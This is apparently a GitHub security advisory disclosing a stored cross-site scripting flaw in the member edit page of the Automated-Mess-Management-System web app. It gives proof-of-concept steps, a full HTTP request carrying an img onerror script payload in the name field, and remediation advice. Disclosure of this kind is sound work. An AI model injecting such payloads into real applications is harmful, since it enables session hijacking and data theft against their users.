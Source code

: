 # boyiddha / Automated-Mess-Management-System - /member/member_edit.phpStored XSS

## Vendor Homepage:
[Automated-Mess-Management-System](https://github.com/boyiddha/Automated-Mess-Management-System)

## Impact
The presence of Stored Cross-Site Scripting (XSS) in the /member/member_edit.php endpoint of boyiddha's Automated-Mess-Management-System poses a significant security risk. Attackers can exploit this vulnerability to inject malicious scripts into the application, which will be executed within the context of other users' browsers upon viewing the infected page. This could result in unauthorized access to sensitive information, session hijacking, defacement of web pages, or phishing attacks targeting users. Furthermore, if an attacker manages to exploit an administrative account with injected scripts, it could lead to complete compromise of the system, posing a significant risk to data confidentiality, integrity, and overall system security.

## Proof of Concept
Step 1: Login as a member.\
Step 2: Go to Update membership\
Step 3: Edit the member information with the payload "><img src=x onerror=alert("NoChizPlz")> on the fullname parameter\
Step 4: Click Update
Step 5: Injected payload will reflect after reload


## HTTP Request Example
``` http request
POST /member/member_edit.php?edit=[REDACTED] HTTP/1.1
Host: [REDACTED]
Content-Length: 795
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0gvZpaMviFXnB8sJ
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="name"

><img src=x onerror=alert("NoChizPlz")>
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="email"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="password"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="phone"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="room"

302
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="address"

[REDACTED]
------WebKitFormBoundary0gvZpaMviFXnB8sJ
Content-Disposition: form-data; name="update"

Update 
------WebKitFormBoundary0gvZpaMviFXnB8sJ--

```
## Proof with Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/5c302e45-bcd3-4fc8-b03f-a95ce19d0b94)


## Remidiation
To mitigate this issue, developers should implement proper input validation and output encoding to prevent the execution of malicious scripts. Additionally, the application should sanitize user inputs to neutralize any potentially harmful content before rendering it in the browser.

## CWE
[CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
